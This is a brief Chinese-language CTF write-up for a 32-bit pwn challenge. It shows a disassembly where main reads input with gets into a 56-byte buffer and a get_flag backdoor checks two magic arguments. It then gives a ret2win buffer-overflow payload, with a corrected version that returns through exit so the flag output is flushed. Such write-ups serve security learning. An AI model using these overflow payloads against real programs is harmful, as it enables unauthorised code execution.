


先查看防护

查看反汇编

~~~asm
080489a0    void get_flag(int32_t arg1, int32_t arg2)

080489b6        if (arg1 != 0x308cd64f || arg2 != 0x195719d1)
080489b6            return 
080489b6        
080489c7        void* eax_1 = _IO_fopen("flag.txt", "rt")
080489d1        char eax_2 = _IO_getc(eax_1)
080489d1        
080489df        if (zx.d(eax_2) != 0xff)
080489e1            int32_t ecx_2 = sx.d(eax_2)
08048a0b            char eax_3
08048a0b            
08048a0b            do
080489f3                putchar(ecx_2)
080489fb                eax_3 = _IO_getc(eax_1)
08048a00                ecx_2 = sx.d(eax_3)
08048a0b            while (zx.d(eax_3) != 0xff)
08048a0b        
08048a10        _IO_fclose(eax_1)

08048a1a                                66 0f 1f 44 00 00            f..D..

08048a20    int32_t main()

08048a2a        _IO_printf("Qual a palavrinha magica? ")
08048a36        char var_38[0x38]
08048a36        _IO_gets(&var_38)
08048a40        return 0
~~~

发现有_IO_gets(&var_38)，有溢出空间，且给了后门代码。

工具测出需要56字节可以溢出

阅读代码可知，我们想要获取flag需要传入两个参数。

所以payload构造如下：

~~~python
payload = b'A'*56+p32(get_flag)+p32(0x308cd64f)+p32(0x195719d1)
~~~

但是并没有成功。程序没有输出我们想要的结果

fopen需要正常的exit。fopen函数就是打开了一个文件的输入流，它不会立即输出在用户shell上。所以我们需要退出

正确payload构造：

payload = b'A'*56+p32(get_flag)+p32(exit)+p32(0x308cd64f)+p32(0x195719d1)
